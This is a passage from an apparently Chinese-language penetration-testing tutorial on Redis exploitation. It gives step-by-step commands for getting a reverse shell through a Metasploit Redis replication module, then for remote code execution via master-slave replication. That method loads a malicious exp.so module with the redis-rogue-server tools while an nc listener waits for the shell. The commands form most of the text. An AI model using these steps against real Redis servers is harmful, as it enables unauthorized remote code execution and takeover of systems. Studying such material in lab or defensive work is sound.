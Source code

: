 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637637050917-64cc7873-bf35-42c6-94d8-ab03f2e37e0a.png#clientId=u59cd1f6a-96a6-4&from=paste&height=241&id=u0ae2bf6b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=321&originWidth=844&originalType=binary&ratio=1&size=59163&status=done&style=none&taskId=ufdb23589-759a-410b-9ff8-df6f5081285&width=633)

#### 3、msf反弹shell
```bash
use exploit/linux/redis/redis_replication_cmd_exec
set rhosts 靶机ip
set lhosts 攻击方ip
set srvhost 攻击方ip
run
```

`shell`可进入shell界面

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637648535529-b40d43bc-190a-441f-8867-b0fa2506d570.png#clientId=u9ca82c02-4aec-4&from=paste&height=548&id=ud48ac008&margin=%5Bobject%20Object%5D&name=image.png&originHeight=730&originWidth=900&originalType=binary&ratio=1&size=197772&status=done&style=none&taskId=u210176e7-bbfa-4852-9652-44563f358c1&width=675)

# 0x03 本地Redis主从复制RCE反弹shell
## 3.1 漏洞原理
对于只允许本地连接的Redis服务器，可以通过开启主从模式，从远程主机上同步 .so 文件至本地，接着载入恶意 .so 文件模块，反弹shell至远程主机。

## 3.2 漏洞版本
> Redis 4.x ~ 5.x


## 3.3 工具下载
[redis-rogue-server工具](https://github.com/n0b0dyCN/redis-rogue-server)
 -- 该工具无法对Redis密码进行Redis认证，也就是说该工具只适合目标存在Redis未授权访问漏洞时使用。

[Awsome-Redis-Rogue-Server工具](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)
 -- Redis存在密码可以使用该工具
 -- 设置密码：redis.conf中的 `requirexxx fooxxx` 
 -- 将 `redis-rogue-server` 的 `exp.so` 复制到 `Awsome-Redis-Rogue-Server` 文件夹下

## 3.4 漏洞利用
这里将redis-rogue-server-master的exp.so复制到Awsome-Redis-Rogue-Server的目录下使用，因为exp.so带system模块。

### 1）kali开启监听
`nc -lvvp 9999`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637653866888-0ac4778f-47e7-4fdc-853b-50dd72656209.png#clientId=u9ca82c02-4aec-4&from=paste&height=43&id=ucacdba1c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=58&originWidth=239&originalType=binary&ratio=1&size=6664&status=done&style=none&taskId=u64e92781-b659-4c6e-a121-70dd2728eee&width=179)

### 2）kali开启15000端口的主服务器
```bash
///// -v      #冗余模式，仅启动Rouge Server模式
python3 redis_rogue_server.py -v -path exp.so
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637653851438-0095c347-456e-4899-bc0d-dbafc85e6279.png#clientId=u9ca82c02-4aec-4&from=paste&id=uc768ff5c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=73&originWidth=834&originalType=binary&ratio=1&size=15455&status=done&style=none&taskId=u7f6aec39-663a-49c8-9fd6-1234dcc7012)
